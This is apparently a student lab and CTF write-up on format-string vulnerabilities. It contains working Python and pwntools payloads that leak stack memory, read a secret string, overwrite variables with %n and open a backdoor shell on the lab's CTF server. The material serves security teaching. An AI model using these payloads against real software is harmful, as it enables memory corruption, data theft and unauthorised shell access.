


# Work developed in week 6

## **Lab Tasks**

Analyzing the vulnerable program _format.c_, we can see a format-string vulnerability in the `printf(msg)` call in the inside _myprintf_ function. It only passes the _char_ msg\* as an argument of the function and has no format string.

Before starting exploring the vulnerability, we check what type of security measures the program has:

```bash
seed@VM:~/.../server-code$ checksec format-32
[*] '/home/seed/Desktop/seed-labs/category-software/Format_String/Labsetup/server-code/format-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Has we can see from the `checksec` output that the program has a _Canary_ and _Non-Executable_ enabled. But the _PIE_ (Position Independent Executable) is not enabled, this means that we can know up-front how the virtual memory of the application is organized, and with this, we can get the addresses of some variables to take advantage of the printf vulnerability (CONTINUE)

### Task 1

In this task, the goal is to provide an input that will crash the program due to the printf vulnerability. This task was quite simple, we just needed to provide "_%s"_ as the input to the server and the program crashed successfully. That happened because the `printf()` call with _%s_ requires the argument to be a pointer to an array of char, but in this call, no arguments are provided so it will try to print the first element in the stack. Since the first element in the stack is not a string, the program will crash immediately.

```bash
seed@VM:~$ echo %s | nc 10.9.0.5 9090
^C
```

### Task 2.A

The goal is to print out the data on the stack, more specifically, the first 4 bytes of our input. To do so we need to add some "%x" to get through all the previous values in the stack and then print the bytes from our input.

The python script provided was changed to send 4 A's, so we are already expecting to see "41414141" printed when we are successful. After testing we found that 64 "%x" did the trick and we got the bytes from our input.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
#number  = 0xbeefbeef
#content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "AAAA" + " %08x"*64

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[0:0+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

In the output we see our input (AAAA), some address and values printed, and finally the bytes from our input (414141):

```Rust
server-10.9.0.5  | Got a connection from 10.9.0.4
server-10.9.0.5  | Starting format
server-10.9.0.5  | The input buffer's address:    0xffffd550
server-10.9.0.5  | The secret message's address:  0x080b4008
server-10.9.0.5  | The target variable's address: 0x080e5068
server-10.9.0.5  | Waiting for user input ......
server-10.9.0.5  | Received 1500 bytes.
server-10.9.0.5  | Frame Pointer (inside myprintf):      0xffffd478
server-10.9.0.5  | The target variable's value (before): 0x11223344
server-10.9.0.5  | AAAA 11223344 00001000 08049db5 080e5320 080e61c0 ffffd550 ffffd478 080e62d4 080e5000 ffffd518 08049f7e ffffd550 00000000 00000064 08049f47 080e5320 000005dc 000005dc ffffd550 ffffd550 080e9720 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 a3062500 080e5000 080e5000 ffffdb38 08049eff ffffd550 000005dc 000005dc 080e5320 00000000 00000000 00000000 ffffdc04 00000000 00000000 00000000 000005dc 41414141The target variable's value (after):  0x11223344
server-10.9.0.5  | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

From this task, we conclude that to access the variable we sent in the beginning of the input, we must access the 64º position in memory (We'll keep this number in mind, as hinted that it will be essential for most of the subsequent tasks).

### Task 2.B

In this task, the goal is to print the [secret message string](https://github.com/seed-labs/seed-labs/blob/master/category-software/Format_String/Labsetup/server-code/format.c#L23) to the console. The address of this string (`0x080b4008`) is printed from the server when a request is made, as seen below:

```rust
(...)
server-10.9.0.5  | The secret message's address:  0x080b4008
(...)
```

In the provided python script we change the _number_ variable to the desired address (`0x080b4008`), and since the program has a little-endian architecture we must store its bytes in the reverse order, which is easily done with the `byteorder='little'` argument in the `.to_bytes()` function.

In the previous task we also discovered that the inputs go to the 64th position in the stack, so instead of adding 64 "%x", we use the line `s = "%64$s"` to go directly there, so that the `printf()` call reads the given secret message's address.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%64$s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

As seen in the output, we successfully accessed the string address and we printed its value:

```rust
server-10.9.0.5  | Got a connection from 10.9.0.4
server-10.9.0.5  | Starting format
server-10.9.0.5  | The input buffer's address:    0xffffd3e0
server-10.9.0.5  | The secret message's address:  0x080b4008
server-10.9.0.5  | The target variable's address: 0x080e5068
server-10.9.0.5  | Waiting for user input ......
server-10.9.0.5  | Received 1500 bytes.
server-10.9.0.5  | Frame Pointer (inside myprintf):      0xffffd308
server-10.9.0.5  | The target variable's value (before): 0x11223344
server-10.9.0.5  |@
                  A secret message
server-10.9.0.5  | The target variable's value (after):  0x11223344
server-10.9.0.5  | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Task 3.A

In this task, it is asked to change the value of the _target_ variable, defined as a global variable in the program. For this purpose, we can take advantage of the `%n` format specifier, which writes to a variable from the arguments a value equal to the number of characters that have been printed by `printf()` before the occurrence of `%n`.

To write something to the address of the _target_ variable, it is necessary to find its position on the stack, which was accomplished in the **Task 2**, and we verify that by placing an address at the beginning of the format string we can access its address at the stack in the position 64.

Finally, we just need to specify in the format string the position where `%n` will write to. To do that, we can use the `%_$n` at the beginning of the format specifier, where `_` indicates the position of the parameter to format in the parameters list. Since there is no parameters list, we will indicate the position that the _target_ variable occupies in the stack, by sending `%64$n` as the format string.

All we needed to do was change the python script to place the address of the _target_ variable at the beginning of the format string, plus the format specifier `%64$n`:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%64$n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

And by executing the python script, we obtain the following result, where we can observe that the value of the target variable changes to `0x00000004`, matching the number of bytes that the _target_ address occupies:

```rust
server-10.9.0.5  | Got a connection from 10.9.0.4
server-10.9.0.5  | Starting format
server-10.9.0.5  | The input buffer's address:    0xffffd0d0
server-10.9.0.5  | The secret message's address:  0x080b4008
server-10.9.0.5  | The target variable's address: 0x080e5068
server-10.9.0.5  | Waiting for user input ......
server-10.9.0.5  | Received 1500 bytes.
server-10.9.0.5  | Frame Pointer (inside myprintf):      0xffffcff8
server-10.9.0.5  | The target variable's value (before): 0x11223344
server-10.9.0.5  | hThe target variable's value (after):  0x00000004
server-10.9.0.5  | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Task 3.B

In this task, instead of changing the content of the _target_ variable to an arbitrary value, we want to change it to a specific value `0x5000`. To do this, we followed the same logic we used in **Task 3.A** by taking advantage of the `%n` format specifier.

We know that the integer value of `0x5000` is 20480. For the content of the _target_ variable to be changed to `0x5000` we have to fill the format string with 20480 characters up to the `%n` format specifier. This is where we face a problem: the buffer size only allocates 1500 bytes. So what we have to do is to include in the format string the specifier `%x` with a width of 20475 characters, in order to specify the number of characters that are written to represent in hexadecimal a given value: `%20475$x`.

We needed to change the python script to place the address of the _target_ variable at the beginning of the format string, plus the format specifier `%20475x\n%64$n`:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%20475x" + "\n" + "%64$n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

The value 20475 was reached from the 20480 characters needed, less 4 bytes, which represent the size occupied by the address at the beginning of the format string, minus 1 byte from the \n, for the line with the new value to be at the bottom.

Finally, when executing the python script, we obtain the following result, where we can observe that the value of the _target_ variable change to `0x5000`:

```rust
server-10.9.0.5  | Got a connection from 10.9.0.4
server-10.9.0.5  | Starting format
server-10.9.0.5  | The input buffer's address:    0xffffd0d0
server-10.9.0.5  | The secret message's address:  0x080b4008
server-10.9.0.5  | The target variable's address: 0x080e5068
server-10.9.0.5  | Waiting for user input ......
server-10.9.0.5  | Received 1500 bytes.
server-10.9.0.5  | Frame Pointer (inside myprintf):      0xffffcff8
server-10.9.0.5  | The target variable's value (before): 0x11223344
server-10.9.0.5  | h
(..empty space..)
                                                                           11223344
server-10.9.0.5  | The target variable's value (after):  0x00005000
server-10.9.0.5  | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

## **CTF write-up/resolution**

### Challenge 1

In this challenge, we are presented with an unsafe `printf` instruction: `printf(buffer);` in the given code, so we may be able to perform a format string attack.

First, we check what type of security measures the program has:

```bash
seed@9dcb163fa999:~$ checksec program
[*] '/home/seed/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

With a Canary found and _Non-Executable_ enabled, trying a buffer overflow, like the previous challenges, may not be an option. But the PIE - _Position Independent Executable_ is not enabled, this means that we can know up-front how the virtual memory of the application is organized, and with this, we can get the addresses of some variables that might be important to get the flag.

The value of the flag is stored in a global variable, and with `printf` we can get the value of a variable if we know its address.

To know a variable's address, we can use `gdb` or `objdump`:

```bash
seed@9dcb163fa999:~$ objdump -t program

program:     file format elf32-i386

SYMBOL TABLE:
080481b4 l    d  .interp        00000000              .interp
080481c8 l    d  .note.gnu.build-id     00000000              .note.gnu.build-id
080481ec l    d  .note.gnu.property     00000000              .note.gnu.property
(...)
0804c034 g     O .data  00000000              .hidden __TMC_END__
08049256 g     F .text  0000004f              load_flag
0804c060 g     O .bss   00000028              flag
08049000 g     F .init  00000000              .hidden _init
```

Here we can see that the flag variable is in the address `0x0804c060`

With the address of the flag, we want to print the string pointed by that address, for that, we will need to use `%s` in the payload (printf manpage):

> %s

> The argument shall be a pointer to an array of **char**. Bytes from the array shall be written up to (but not including) any terminating null byte. If the precision is specified, no more than that many bytes shall be written. If the precision is not specified or is greater than the size of the array, the application shall ensure that the array contains a null byte.

So the payload to send will be `<address>%s` . The last thing to note is that we cannot sent `\x08\x04\xc0\x60%s` because the program was compiled in little-endian, so we need to send the address in the reverse order:

```python
from pwn import *
(...)
p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```

And by executing the python script, we can get the flag:

```bash
seed@4eb7a33b0273:~$ python3 exploit_example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4004: Done
[*] Switching to interactive mode
You gave me this: `\xc0flag{5fc247063bea425edc863667ac9d09bc}

Disqualified!
[*] Got EOF while reading in interactive
```



### Challenge 2

Again, we start by running `checksec` on the program, and we get the same results as before, so we can try another format string attack.

```python
seed@01263caa2989:~$ checksec program
[*] '/home/seed/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

After checking the source code, we have again a global variable `key`, but this time, the variable is an integer with value 0, not a string with the flag value.

On the main function, we can see that we can gain access to the bash if the value of the `key` variable is equal to `0xbeef`.

So what we need to do is, using the `printf`, somehow change the value of the key variable. Fortunately, there is a format string `%n`. From the `printf` manual page:

```json
n      The number of characters written so far is stored into the
              integer pointed to by the corresponding argument.  That
              argument shall be an int *, or variant whose size matches
              the (optionally) supplied integer length modifier.  No
              argument is converted.  (This specifier is not supported
              by the bionic C library.)  The behavior is undefined if
              the conversion specification includes any flags, a field
              width, or a precision.
```

By using `%n`, we can save a value to a pointer of an integer, and to get the address of an integer from a program, we can use `objdump -t`.

```bash
seed@c92700e7a690:~$ objdump -t program

program:     file format elf32-i386

SYMBOL TABLE:
080481b4 l    d  .interp        00000000              .interp
080481c8 l    d  .note.gnu.build-id     00000000              .note.gnu.build-id
080481ec l    d  .note.gnu.property     00000000              .note.gnu.property
(...)
0804c034 g     O .bss   00000004              key
(...)
0804c030 g     O .data  00000000              .hidden __TMC_END__
08049000 g     F .init  00000000              .hidden _init
```

So now we have the address of the `key` variable (`0x0804c034`) and the necessary format string. And here we face the next problem. `0xbeef` corresponds to `48879` if interpreted as an integer, and `%n` counts the number of characters before the `%` and saves that number to a register. So what we have to do is send a buffer with `48879` characters, a `%n`, and the address of the key to update the variable value. But we can't because the `scanf` call only accepts 32 bytes, and the buffer that will hold our message is also 32 bytes long.

Because we can't send `48879` characters, we will need a workaround. The format of a format string is also specified in the man pages:

```json
The overall syntax of a conversion specification is:

           %[$][flags][width][.precision][length modifier]conversion
```

We can change the width of the printed message to whichever value we want, so we can add a random value between the address and the `%n` (using `%x`) with the necessary width to get enough characters before the `%n`. We are able to send this new string because we are not sending more than 32 bytes, only the representation will be larger than 32 bytes. The value of an address is 4 bytes, so the width will be 48879-4=48875: `%48875x`

The final detail needed is to reference correctly the address to which the `%n` will send the value, we need to add a `$1` to the `%n` for it to reference the first 4 bytes sent. This way, the value from %n will be saved to the key variable.

With all the information gathered, we can make our payload:

```python
from pwn import *
(...)
p.recvuntil(b"got:")
p.sendline(b"\x34\xc0\x04\x08" + b"%48875x" +b"%1$n")
p.interactive()
```

And we can run the script:

```bash
seed@c92700e7a690:~$ python3 exploit_example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4005: Done
[*] Switching to interactive mode
You gave me this:4\xc0
(...)
              804c034Backdoor activated
$ ls
flag.txt
run
$ cat flag.txt
flag{228e12f057040402cc928958a4b823d8}
```


